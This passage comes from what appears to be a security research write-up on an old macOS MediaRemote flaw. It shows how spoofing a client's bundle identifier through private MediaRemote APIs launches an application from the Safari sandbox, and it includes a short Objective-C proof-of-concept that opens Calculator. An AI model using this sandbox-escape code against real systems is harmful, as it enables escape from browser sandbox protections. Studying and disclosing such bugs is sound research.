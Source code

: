 ![Serialized XPC](img/2020-05-27-revisiting-an-old-mediaremote/serialized-mrxpc.svg)

This class has three important properties: origin, client, and player. The field client points to an `_MRNowPlayingClientProtobuf` class, who has a bundleIdentifier string. This parameter will be passed to `MSVLaunchApplication` and we can spoof it. To craft the desired objects, some private APIs of MediaRemote can help.

* `MRNowPlayingClientCreate` to create a client with arbitrary bundle id
* `MRMediaRemoteSendCommandToClient` to serialize and send the XPC message

Now let's pop a Calculator from Safari sandbox in only few lines of code!

```objc
extern id MRNowPlayingClientCreate(NSNumber*, NSString *);
extern id MRMediaRemoteSendCommandToClient(int, NSDictionary*, id, id, int, int, id);
id client = MRNowPlayingClientCreate(nil, @"com.apple.calculator");
NSDictionary *args = @{@"kMRMediaRemoteOptionDisableImplicitAppLaunchBehaviors" : @NO};
MRMediaRemoteSendCommandToClient(2, args, nil, client, 1, 0, ^void(unsigned int a1, CFArrayRef a2) {});
```
